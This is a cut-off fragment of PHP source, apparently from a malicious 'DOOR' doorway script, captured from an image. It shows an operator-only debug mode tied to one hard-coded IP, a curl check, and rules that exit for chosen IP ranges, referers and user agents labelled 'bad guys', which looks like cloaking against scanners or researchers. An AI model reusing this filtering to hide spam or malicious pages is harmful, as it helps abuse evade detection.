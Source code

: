 ```
    $server_query_string = @$_SERVER['QUERY_STRING'];
    $server_signature = @$_SERVER['SERVER_SIGNATURE'];
    $server_request = @$_SERVER['REQUEST_URI'];

    $debug = false;
    if ($server_remote_addr == "108.170.8.174"){$debug = true;} 

    if ($debug) 
        {
            echo "<title>DOOR OK</title>";
            echo "originalurl=$originalurl<br>";
            echo "server_user_agent=$server_user_agent<br>";
            echo "server_referer=$server_referer<br>";
            echo "server_host=$host<br>";
            echo "server_remote_addr=$server_remote_addr<br>";
            echo "server_request=$server_request<br>";
            echo "www_root=$www_root<br><br>";

            echo "Check CURL extension...";
            if (extension_loaded('curl'))
                {
                    echo "<font color=green><b>YES</b></font><br><br>";
                }
                else
                {
                    echo "<font color=red><b>NO</b></font><br><br>";
                }   
        }   

    // Some bad guys :)

    if (eregi ("start=56",$server_referer))
    {
        exit();
    }

    if ($agent == "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; SV1; .NET CLR 1.1.4322)")
    {
        exit();
    }   

    if ($agent == "Mozilla/4.0")
    {
        exit();
    }   

    if (eregi("75.125.",$server_remote_addr))
    {
        exit();
    }

    if (eregi("41.190.",$server_remote_addr))
    {
        exit();
    }   

    if (eregi("143.215.169",$server_remote_addr))
    {
        exit();
    }       

if (eregi("75.55.",$server_remote_addr))
    {
```